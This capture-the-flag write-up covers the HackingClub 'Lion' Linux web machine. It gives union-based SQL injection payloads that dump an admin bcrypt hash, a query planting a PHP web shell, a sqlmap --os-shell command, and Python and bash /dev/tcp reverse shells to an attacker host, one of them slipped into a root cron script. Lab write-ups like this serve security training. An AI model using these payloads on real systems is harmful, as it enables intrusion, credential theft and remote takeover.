

[HackingClub] Lion Writeup
| Platform: | HackingClub |
| Machine: | Lion |
| Category: | Web Exploitation |
| OS: | Linux |
| Difficulty: | Easy |

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint /admine/includes that contains some information, but we didn't find anything suspicious. The Nmap scan didn't reveal anything unusual either.
Looking at the /index.php directory, we notice a search field that sends a POST request to search.php (the parameter used is searchtitle, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
## Exploitation
This is an SQLi vulnerability. For manual exploitation, we'll first attempt to determine the number of columns using the following query: ' order by 7 #
After the ORDER BY 8, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
- Query to retrieve the current database name:
' union select 1,database(),3,4,5,6,7 #. The database name is: news. - Query to retrieve tables:
' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #. Tables:tbladmin,tblcategory,tblcomments,tblpages,tblposts,tblsubcategory. - Get columns:
' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #. Columns:AdminUserNameandAdminPassword. - Retrieve results:
' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #and' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #.
We have the following user/password: admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b. I ran it through Hash Identifier, and it's bcrypt. I tried cracking it with Hashcat, but it didn't work.
So, let's attempt to place a shell in the includes directory instead:
' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #Alright, we have a PHP shell. Using SQLMap, we can also use the --os-shell parameter:
python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shellNow, we can get reverse shell with python:
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'## Post Exploitation
I ran linpeas to find potential vectors for privilege escalation. We found a .sh file (with misconfigured permissions) that is set to run as root in a cron job.
There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn't work, we can try exploiting the logrotate vulnerability as an alternative.
Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.
/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'